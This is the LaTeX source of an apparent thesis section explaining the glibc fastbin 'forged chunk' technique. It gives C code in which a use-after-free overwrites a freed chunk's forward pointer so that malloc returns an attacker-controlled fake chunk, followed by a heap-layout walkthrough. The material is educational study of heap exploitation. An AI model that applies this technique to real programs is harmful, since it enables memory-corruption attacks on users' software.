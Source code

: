\documentclass{masterthesis}
\newcommand*\fb{fast bins}
\begin{document}
\section{Forged Chunk}
Freeing up a chunk does not prevent access to it because the pointer still exists in the application, so, we can implement an attack on the heap data structure by taking control of the pointer . Below code shows how we can return our forged chunk instead of a real heap chunk: 

\begin{lstlisting}[language=c,frame=tlrb]
struct forged_chunk {
size_t prev_size;
size_t size;
struct forged_chunk *fd;
struct forged_chunk *bck;
char buf[10];    // padding
};
a = malloc(10);    // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk; // At address 0x7ffc6de96690
chunk.size = 0x20;
data = (char *)&chunk.fd;  
strcpy(data, "attacker's data");

free(a); // Put the fast chunk back into fastbin

// Modify 'forward' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;

// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);     // Will return 0x219c010
victim = malloc(10);   // Points to 0x7ffc6de966a0
\end{lstlisting}

In the first step, we allocate a memory ‘a’ with 10-Byte size, also, Create our fake chunk with size 0x20. Chunk size is important It must fall in \fb{} chunks size because \fb{} has a security check on chunk size while removing it from the list.
Now by call free(a), the real chunk is put back in the \fb{}. As we tell, we free up space but the pointer still points to chunk memory location. By accessing the pointer, we make the forward pointer of freed chunk ‘a’ to point to the forged chunk. The current layout of the heap is like below now: 

\begin{lstlisting}[language=c,frame=tlrb]
head -> a -> forged chunk -> undefined (forward of the forged chunk be holding attacker's data)
\end{lstlisting}

In the following by first allocated ‘a’ again, the heap manager returns the 'a' from the fast bin, following that, our forged chunk be at the head, so, next allocation return it instead of a real chunk
\end{document}

